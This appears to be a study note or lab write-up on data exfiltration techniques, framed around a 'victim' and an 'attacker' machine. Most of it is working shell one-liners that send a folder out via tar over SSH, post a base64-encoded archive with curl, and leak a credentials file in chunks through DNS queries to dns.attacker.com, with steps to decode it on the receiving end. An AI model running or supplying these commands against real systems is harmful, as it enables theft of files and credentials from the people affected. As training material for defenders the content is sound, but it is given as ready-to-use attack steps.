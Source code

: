 ### SSH
from the victim machine:\
`tar cf - <folder> | ssh <RED>@<IP> "cd /tmp/; tar xpf -"`
1. We used the tar command the same as the previous task to create an archive file of the <folder> directory.\
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session. \
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

### HTTP POST
We imagine we have a contact.php on a web server that will store data somewhere on the machine\
`curl --data "file=$(tar zcf - <FOLDER> | base64)" http://the.web.server/contact.php`\
The main problem is that because of the http URL encoding, the base64 will be broken, so here is how fix it:\
`sudo sed -i 's/ /+/g' <file>

### DNS 
After have set up a dns record that point to the ATTACKER's machine we an send data through url\
Lets say we have a cred.txt with the data to exfiltrate.\
We first want to encode the file then send it using dns technique.\

`cat cred.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.dns.attacker.com/'`\
1. encode to b64
2. removed new line char
3. split the content in 18 char long
4. send request to attacker machine with partial content as many times as required

another way to do it single request\

`cat cred.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/dns.attacker.com/`\

Now from the victim machine:\
--- VICTIM ---
`cat cred.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/dns.attacker.com/ | awk '{print "dig +short " $1}' | bash`\

Then fro the attacker machine:\
`echo "baSE64.encodedDaaTA.SplIITed.ByDooOts.==" | cut -d"." -f1-8 | tr -d "." | base64 -d`


